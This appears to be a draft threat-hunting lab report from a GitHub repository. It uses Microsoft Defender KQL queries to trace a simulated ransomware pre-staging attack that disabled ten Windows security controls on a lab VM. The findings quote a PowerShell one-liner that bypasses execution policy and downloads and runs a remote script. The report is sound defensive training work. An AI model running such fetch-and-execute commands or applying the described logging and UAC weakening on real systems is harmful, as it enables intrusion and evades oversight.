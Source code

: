 ![image](https://github.com/user-attachments/assets/aae438d1-b51f-4691-b49b-e45fa8b044ad)

# Threat Hunt Report: Crimson Mongoose Ransomware Pre-Staging (((DRAFT))) 
- [Scenario Creation](./threat-hunting-scenario-ransomware-pre-staging-activity-event-creation.md)

---

## Platforms and Languages Leveraged
- Windows 10 Virtual Machine (Microsoft Azure)
- EDR Platform: **Microsoft Defender for Endpoint** (Advanced Hunting)
- Kusto Query Language (KQL)
- PowerShell

---

## Scenario

**Alert source:** Regional CERT flash warning of a new ransomware crew, *Crimson Mongoose*.

**Key intel:** In every confirmed intrusion the actors quickly flip **exactly ten Windows 10 STIG controls** that kill logging (PowerShell, audit), weaken UAC, and enable insecure remote protocols (SMB signing, WinRM HTTP, disable FIPS).  
They then lurk ≤ 24 h before detonating an encryptor.

**Goal:** Detect all ten STIG flips on the single lab VM and escalate **before** the 24-hour fuse expires.

### High-Level IOC Discovery Plan

| Table | IOC Focus |
|-------|-----------|
| `DeviceRegistryEvents` | Any of the ten registry paths/values set to non-compliant data. |
| `DeviceProcessEvents` | `reg.exe`, `Set-ItemProperty`, or `auditpol.exe` commands that performed the flips. |
| `DeviceNetworkEvents` | Unsigned SMB or WinRM HTTP (port 5985) traffic that follows the mis-configs. |

---

## Steps Taken

### 1. Checked `DeviceRegistryEvents` for STIG value changes

Simple sweep for any key containing the PowerShell, WinRM, SMB, FIPS, or UAC paths with bad values (`0` or `1` depending on control).  
**Query used:**

```kql
DeviceRegistryEvents
| where Timestamp > ago(24h)
| where ActionType == "RegistryValueSet"  
| where RegistryKey has_any ([...])
| project Timestamp, DeviceName, RegistryKey, RegistryValueName, 
         RegistryValueData, InitiatingProcessAccountName,  
         InitiatingProcessFileName  
```
Findings: All ten non-compliant values appeared between 2025-06-17 18:03–18:05 UTC.

##

### 2. Checked DeviceProcessEvents for who made the changes
Focused on commands containing reg add, Set-ItemProperty, or auditpol.
Query:

```kql
DeviceProcessEvents
| where Timestamp between (datetime(2025-06-17T18:00Z) .. datetime(2025-06-17T18:10Z))
| where ProcessCommandLine has_any ("reg add","Set-ItemProperty","auditpol")
| project Timestamp, FileName, ProcessCommandLine, InitiatingProcessAccountUpn
```

Findings:
Process owner corp\backupsvc executed one-liner PowerShell:
```
powershell.exe -ep Bypass -NoProfile -c "iwr https://raw.githubusercontent.../stig-pre-staging-iocs.ps1 | iex"
```

This matches attacker TTP: pull-and-run script from GitHub, window hidden.

##

### 3. Searched DeviceNetworkEvents for supporting traffic
Hunted for unsigned SMB and WinRM HTTP (5985).

```kql
DeviceNetworkEvents
| where Timestamp > datetime(2025-06-17T18:05Z)
| where (RemotePort == 5985 and Protocol == "Tcp")  
   or (LocalPort == 445 and Protocol == "Tcp" and AdditionalFields contains "SmbIsSigned")
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessFileName
```

Findings:
Immediately after registry flips, the host initiated WinRM HTTP to 10.0.0.15 (internal admin box). No SMB signing packets yet, but early WinRM use confirms staging.

Chronological Event Timeline

| Time (UTC) | Event |
|-------|-----------|
|18:03:12|	powershell.exe (hidden) downloaded and executed stig-pre-staging-iocs.ps1.|
|18:03:14–18:05:09|	All ten registry values flipped to non-compliant (DeviceRegistryEvents).|
|18:05:22|	First WinRM HTTP connection to 10.0.0.15:5985 by powershell.exe.|

---

## Summary
The VM showed the full Crimson Mongoose STIG footprint: ten critical controls disabled by account corp\backupsvc via a single remote-downloaded PowerShell command, followed by WinRM traffic.
This matches pre-staging behavior; ransomware detonation would likely follow within the next 24 hours.

---

### Response Taken
MDE action “Isolate device” executed.

---

